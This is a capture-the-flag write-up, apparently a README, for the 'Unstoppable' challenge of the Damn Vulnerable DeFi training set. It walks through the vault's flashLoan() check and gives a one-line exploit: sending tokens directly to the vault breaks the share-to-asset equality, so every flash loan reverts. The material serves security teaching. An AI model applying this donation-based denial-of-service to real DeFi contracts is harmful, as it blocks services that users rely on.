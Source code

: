 # What is Damn Vulnerable DeFi?

The Damn Vulnerable DeFi Challenge is a set of educational exercises designed to teach participants about common vulnerabilities in decentralized finance (DeFi) protocols. Through hands-on practice,
participants exploit simulated vulnerabilities in a controlled environment, learning about security pitfalls and best practices in smart contract development and blockchain security.

This challenge helps developers, auditors, and enthusiasts understand the intricacies of DeFi security by engaging them in real-world attack scenarios and defenses.

# Unstoppable Solution:

it was Really Painful that at the end i find out, this Challenge can be Done only With one Line of code: (it took me 1.5 day to solve it, and i Founded by my Own Without Looking Online Solutions, so it was really painful...)

```
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣀⣀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡤⠖⠚⠉⠁⠀⠀⠉⠙⠒⢄⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⢀⠔⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⢢⡀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⡰⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⣆⠀⠀
⠀⠀⠀⠀⠀⢠⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢇⠀
⠀⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⡄
⠀⠀⠀⠀⢸⠄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠇
⠀⠀⠀⠀⠸⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠇
⠀⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡘
⠀⠀⠀⠀⠀⢻⠀⠀⠀⠀⠀⠀⠀⢀⣴⣶⡄⠀⠀⠀⠀⠀⢀⣶⡆⠀⢠⠇
⠀⠀⠀⠀⠀⠀⣣⠀⠀⠀⠀⠀⠀⠀⠙⠛⠁⠀⠀⠀⠀⠀⠈⠛⠁⡰⠃⠀
⠀⠀⠀⠀⢠⠞⠋⢳⢤⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠜⠁⠀⠀
⠀⠀⠀⣰⠋⠀⠀⠀⢷⠙⠲⢤⣀⡀⠀⠀⠀⠀⠴⠴⣆⠴⠚⠁⠀⠀⠀⠀
⠀⠀⣰⠃⠀⠀⠀⠀⠘⡇⠀⣀⣀⡉⠙⠒⠒⠒⡎⠉⠀⠀⠀⠀⠀⠀⠀⠀
⠀⢠⠃⠀⠀⢶⠀⠀⠀⢳⠋⠁⠀⠙⢳⡠⠖⠚⠑⠲⡀⠀⠀⠀⠀⠀⠀⠀
⠀⡎⠀⠀⠀⠘⣆⠀⠀⠈⢧⣀⣠⠔⡺⣧⠀⡴⡖⠦⠟⢣⠀⠀⠀⠀⠀⠀
⢸⠀⠀⠀⠀⠀⢈⡷⣄⡀⠀⠀⠀⠀⠉⢹⣾⠁⠁⠀⣠⠎⠀⠀⠀⠀⠀⠀
⠈⠀⠀⠀⠀⠀⡼⠆⠀⠉⢉⡝⠓⠦⠤⢾⠈⠓⠖⠚⢹⠀⠀⠀⠀⠀⠀⠀
⢰⡀⠀⠀⠀⠀⠀⠀⠀⠀⢸⠁⠀⠀⠀⢸⠀⠀⠀⠀⡏⠀⠀⠀⠀⠀⠀⠀
⠀⠳⡀⠀⠀⠀⠀⠀⠀⣀⢾⠀⠀⠀⠀⣾⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠈⠐⠢⠤⠤⠔⠚⠁⠘⣆⠀⠀⢠⠋⢧⣀⣀⡼⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠈⠁⠀⠀⠀⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀
```

Lets take A Look At `flashLoan()` function:

```javascript
    function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
            external
            returns (bool)
        {
            if (amount == 0) revert InvalidAmount(0); // fail early
            if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
            uint256 balanceBefore = totalAssets();

            if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

            // transfer tokens out + execute callback on receiver
            ERC20(_token).safeTransfer(address(receiver), amount);

            // callback must return magic value, otherwise assume it failed
            uint256 fee = flashFee(_token, amount);
            if (
                receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                    != keccak256("IERC3156FlashBorrower.onFlashLoan")
            ) {
                revert CallbackFailed();
            }

            // pull amount + fee from receiver, then pay the fee to the recipient
            ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
            ERC20(_token).safeTransfer(feeRecipient, fee);

            return true;
        }
```

ignore first two Checks, there's nothing You can do about it.

the Vulnerablity is in third check:

```javascript
    uint256 balanceBefore = totalAssets();

    if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance();
```

starting `totalSupply` of is: `1000000000000000000000000`.
starting `totalAssets` of is: `1000000000000000000000000`.

`convertToShares()` function does this:

```javascript
    function convertToShares(uint256 assets) public view virtual returns (uint256) {
        uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.
            
        return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
    }
```

our `totalSupply` is not `0`, so this part of the code will execute:

```javascript
    assets.mulDivDown(supply, totalAssets());
```

which will result in:

```javascript
    // (assets * supply) / totalAssets()
    (1000000000000000000000000 * 1000000000000000000000000) / 1000000000000000000000000 = 1000000000000000000000000;
```

lets go back to the if Statement:

```javascript
    if (1000000000000000000000000 != 1000000000000000000000000) revert InvalidBalance();
```

all We Have to Do is Manipulate the `totalAssets()` value to make this contract vulnerable to `DOS`, which will Result in Reverting Whenever the `flashLoan()` function is called.

How we can do that? 

Go to the `Unstoppable.t.sol` and Add the Line Below to the `test_unstoppable()` test:

```javascript
    token.transfer(address(vault), 10e18);
```

now `totalAssets()` returned Value is: `1000010000000000000000000`

which will make the if statement to `revert()` everytime the `flashLoan()` function is Called, Because:

```javascript
    if (1000000000000000000000000 != 1000010000000000000000000) revert InvalidBalance();
```

Now One Thing to Note is, You cannot Manipulate the `totalAssets()` value or `convertToShares(totalSupply)` with `deposit()` function because mints the `receiver` address amount of shares
Which Makes the if statement condition to be `false` because `totalAssets()` and `convertToShares(totalSupply)` Values Will be Always Equal.
